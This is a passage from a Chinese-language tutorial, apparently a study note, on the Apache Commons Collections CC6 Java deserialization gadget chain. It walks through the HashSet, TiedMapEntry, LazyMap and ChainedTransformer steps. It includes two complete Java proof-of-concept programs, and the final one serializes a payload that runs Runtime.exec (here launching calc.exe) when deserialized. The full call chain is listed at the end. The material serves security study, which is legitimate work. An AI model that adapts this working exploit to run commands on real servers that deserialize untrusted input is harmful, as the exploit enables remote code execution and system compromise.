



恰好HashSet类中readObject方法恰好调用了map.put()，而且map也正是我们想要的HashMap对象，同时HashSet是可序列化的。但还有个问题，虽然我们能触发Hash.put()方法了，但我们是通过HashMap.put()->HashMap.hash(key)->HashMap.key.hashCode()。所以我们还需要key可控，即e可控：



而HashSet提供了add方法，这样就使得e可控了：

```
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
//        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        ConstantTransformer l = new ConstantTransformer(1);
        
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};        
        ChainedTransformer chain=new ChainedTransformer(transformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"111");
        HashSet map=new HashSet();
        map.add(tiedMapEntry);
        
//        Field field=chain.getClass().getDeclaredField("iTransformers");
//        field.setAccessible(true);
//        field.set(chain,transformers);

//        serialize(map);
//        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```



但依旧存在问题，可以看到，就算我们不进行反序列化依旧能弹计算机，这是因为`map.add(tiedMapEntry);`传入tiedMapEntry对象后，而恰好add里面有和readObject的map.put()方法，于是直接把我们的链子走了一遍，弹了计算机。

解决这个问题的思路和HashMap链是一样的，就是通过先在tiedMapEntry对象中传入一个假payload的LazyMap对象，然后执行完add方法添加了e后再通过反射将payload改回去，即改字段iTransformers的值。

最终poc：

```
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
import java.lang.Runtime;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] faketransformers = new Transformer[]{new ConstantTransformer(1)};

        ConstantTransformer Runtime = new ConstantTransformer(Runtime.class);
        InvokerTransformer getRuntime=new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",new Class[0]});
        InvokerTransformer invoke=new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]});
        InvokerTransformer exec=new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        ConstantTransformer l = new ConstantTransformer(1);
        
        Transformer[] transformers=new Transformer[]{Runtime,getRuntime,invoke,exec,l};
        ChainedTransformer chain=new ChainedTransformer(faketransformers);

        Map innermap=new HashMap();
        Map Lazymap=LazyMap.decorate(innermap, chain);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(Lazymap,"b1uel0n3");
        HashSet map=new HashSet();
        map.add(tiedMapEntry);
        innermap.remove("b1uel0n3");

        Field field=chain.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chain,transformers);

        serialize(map);
        unserialize();
    }

    public static void serialize(Object o) throws Exception {
        FileOutputStream out=new FileOutputStream("E:\study\web\java\test.ser");
        ObjectOutputStream oos=new ObjectOutputStream(out);
        oos.writeObject(o);
        oos.close();
    }

    public static void unserialize() throws Exception {
        FileInputStream in=new FileInputStream("E:\study\web\java\test.ser");
        ObjectInputStream ois=new ObjectInputStream(in);
        ois.readObject();
        in.close();
    }
}
```



注意LazyMap.get()执行的条件，`innermap.remove("b1uel0n3");`键名不存在时触发，也是成功弹计算机了

完整利用链：

```
ObjectInputStream -> readObject()
HashSet -> readObject()
HashMap -> put()
HashMap -> hash(key)
TiedMapEntry -> hashCode()
TiedMapEntry -> getValue()
LazyMap -> get()
ChainedTransformer -> transform()
ConstantTransformer -> transform()
InvokerTransformer -> transform()
    Class.getMethod()
InvokerTransformer -> transform()
    Runtime.getRuntime()
InvokerTransformer -> transform()
    Runtime.exec()
```

## 参考

<https://changeyourway.github.io/2024/05/13/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-CC6%E9%93%BE%E5%88%86%E6%9E%90/>

<https://nivi4.notion.site/Java-CommonCollections6-b3a2ddf3ab16403699363c2ede802fcb>

<https://www.freebuf.com/articles/web/336628.html>

<https://curlysean.github.io/2025/02/24/CC6%E9%93%BE/>

<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java>
